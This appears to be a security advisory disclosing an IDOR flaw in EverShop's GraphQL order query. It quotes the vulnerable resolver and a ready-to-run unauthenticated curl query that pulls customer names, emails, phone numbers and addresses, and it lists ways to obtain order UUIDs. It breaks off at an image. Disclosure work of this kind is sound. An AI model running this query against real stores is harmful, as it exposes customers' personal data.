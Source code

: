 # Evershop Unauthorized Order Information Access (IDOR)

# Security Advisory: Unauthorized Order Information Access (IDOR)

- **CVE ID:** CVE-2025-XXXX-10
- **Product:** EverShop E-Commerce Platform
- **Vulnerability Type:** Insecure Direct Object Reference (IDOR)
- **Severity:** HIGH
- **CVSS v3.1 Score:** 7.5
- **CWE:** CWE-639 (Authorization Bypass Through User-Controlled Key)
- **Disclosure Date:** 2025-10-23 UTC
  
---

## Executive Summary

A critical authorization vulnerability has been identified in EverShop's GraphQL API that allows any unauthenticated user to access complete order information, including customer personally identifiable information (PII), shipping addresses, billing details, and purchase history. This is a textbook Insecure Direct Object Reference (IDOR) vulnerability where the application fails to verify whether the requesting user has permission to access the requested order data.

---

## Vulnerability Details

### Description

The `order` GraphQL query resolver accepts an order UUID as input and returns complete order details without performing any authentication or authorization checks. An attacker who obtains or guesses a valid order UUID can retrieve sensitive customer information including:

- Customer full name, email address, and phone number
- Complete shipping address (street, city, province, postal code, country)
- Complete billing address
- Order total amount and payment status
- Detailed list of purchased products with prices
- Shipping and tracking information

### Affected Components

**File:** `/src/modules/oms/graphql/types/Order/Order.resolvers.js` (lines 7-14)

**Vulnerable Code:**

```javascript
Query: {
  order: async (_, { uuid }, { pool }) => {
    const query = getOrdersBaseQuery();
    query.where('uuid', '=', uuid);  // ❌ Only checks if UUID exists
    const order = await query.load(pool);  // ❌ No authorization check
    return order ? camelCase(order) : null;
  }
}
```

**Comparison with Secure Implementation:**

The codebase does contain a secure implementation for customer-owned orders:

```javascript
Customer: {
  orders: async ({ customerId }, _, { pool }) => {
    const orders = await select()
      .from('order')
      .where('order.customer_id', '=', customerId);  // ✅ Validates ownership
    return orders.map((row) => camelCase(row));
  }
}
```

This demonstrates that the developers understand proper authorization, but failed to apply it consistently across all query endpoints.

---

## Attack Vector

### Prerequisites

- **Authentication:** None required
- **Access Level:** Public (unauthenticated users)
- **Complexity:** Low
- **User Interaction:** None

### Attack Steps

**Step 1: Obtain Order UUID**

Order UUIDs can be obtained through various methods:
- Email order confirmation links (e.g., `https://[REDACTED]/order/view/{ORDER_UUID}`)
- Predictable order numbering combined with CVE-2025-XXXX-11
- Information disclosure through error messages
- Social engineering
- Brute force (UUIDs are predictable if using time-based generation)

**Step 2: Query Order Information**

Execute an unauthenticated GraphQL query:

```bash
curl -X POST 'https://[REDACTED]/api/graphql' \
  -H 'Content-Type: application/json' \
  -d '{
    "query": "query GetOrder($uuid: String!) { order(uuid: $uuid) { uuid orderNumber customerEmail customerFullName customerTelephone grandTotal { value } shippingAddress { fullName telephone address1 city province postcode country { name } } billingAddress { fullName telephone address1 } items { productName qty productPrice { value } finalPrice { value } } } }",
    "variables": {
      "uuid": "TARGET_ORDER_UUID"
    }
  }'
```

**Step 3: Receive Sensitive Data**

<img width="941" height="518" alt="image" src="https://github.com/user-attachments/assets/0696e74f-c43d-4cfb-aa30-1e44a42269cc" />
